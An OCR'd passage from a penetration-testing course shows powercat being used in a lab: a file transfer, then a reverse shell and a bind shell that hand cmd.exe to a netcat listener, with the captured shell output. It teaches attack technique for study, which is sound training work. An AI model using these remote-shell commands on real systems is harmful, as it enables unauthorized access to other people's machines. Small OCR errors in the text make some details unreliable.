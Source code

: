 ```
PS C:\powercat> powercat -c 192.168.0.223 -p 443 -i C:\powercat\powercat.ps1
```

Finally, Alice wi ll kill the Netcat process and check that the file has been recelved:

```
^C
kali@kali:~$ ls receiving_powercat.psl
receiving_powercat.psl
```

#### Powercat Reverse Shells

We begin with the Netcat listener on Alice's machine:

```
kali@kali:~$ sudo nc -lvp 443
listening on [any] 443 ...
```

Next, Bob will use powercat to send a reverse shell. In this example. the -e option specifies the
application to execute (cmd.exe) once a connection is made to a listening port:

```
PS C:\Users\offsec> powercat -c 192.168.0.223 -p 443 -e cmd.exe
```

Finally, Alice's Netcat listener will receive the shell:

```
kali@kali:~$ sudo nc -lvp 443                          
listening on [any] 443 ...
192.168.0.198: inverse host lookup failed: Unknown host
connect to [192.168.0.223] from (UNKNOWN) [192.168.0.198] 51267
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```



#### Powercat Bind Shells

By contrast, a powercat bind shell is started on Bob's side with a powercat listener. We will use the
-t option to create a listener, -p to specify the listening port number, and -e to have an application
(cmd.exe) executed once connected:

```\
PS C:\Users\offsec> powercat -l -p 443 -e cmd.exe
```

Next. Alice will c reate a Netcat connection to the bind shell on Bob's computer:

```
kali @kali:-$ nc 192.168.0.198 443                                                          Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
